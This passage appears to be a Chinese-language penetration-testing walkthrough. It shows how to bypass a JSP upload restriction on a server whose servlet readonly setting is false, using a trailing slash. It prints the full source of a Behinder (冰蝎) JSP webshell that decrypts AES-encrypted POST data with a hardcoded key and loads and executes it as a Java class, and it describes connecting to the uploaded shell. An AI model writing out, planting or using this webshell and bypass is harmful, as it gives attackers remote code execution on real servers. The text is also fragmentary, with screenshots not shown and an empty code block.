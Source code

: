 ##### 绕过，成功上传 jsp

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>

```

可以看到上传 a001.jsp 是成功绕过了

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaBgkwv01KeceCicBGWicvmkHXyiaGSlae4PdnvQO4XgvrXNY4OMOuiapPCA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa55DWlicZtNEz7MVkbx038YwD2DJPaXGCXPxSkBJYtZfvxxTlhiaakxwg/640?wx_fmt=jpeg)

其他两种我就不进行演示了

都是可以的

上传马儿，这边我用冰蝎进行连接

**注意：不能开代理**

看看冰蝎 server 目录下的 jsp 马儿

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9Qa89ia5PibnxCdoQZjwjPuHF1bDNypY90J0KV4A5noh0WDExjL1AeKfT1Q/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QafsD1ibnmNYvp66KlqJp5MTFKUsDG3rFVvpXoAHkibvZE8BJ8NAB5ic4OQ/640?wx_fmt=jpeg)

冰蝎的 jsp 马儿

```
/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/

```

```
<init-param>
 <param-name>readonly</param-name>
 <param-value>false</param-value>
</init-param>

```

注意这边要用`/`进行绕过, 上传 jsp

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaHMgOdHgtfZIhyO7iaMjFdxa12FzCEdSRfmGLTxaeDEDXzR9LGuhA6cw/640?wx_fmt=jpeg)

也可以看到是成功上传的

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QakIyoDvlDoP60RC56Ez6erV8fAXFsEsGjpSVGZgvd6GT6EvNS6Ex5QQ/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ibnOz2Slh3icgLwEyRibxE9QaLxrhKZR4vZpgtzNYdATmEmoH2Tf8mWQt6LstchLHNsrnlGvlqHMcAw/640?wx_fmt=jpeg)
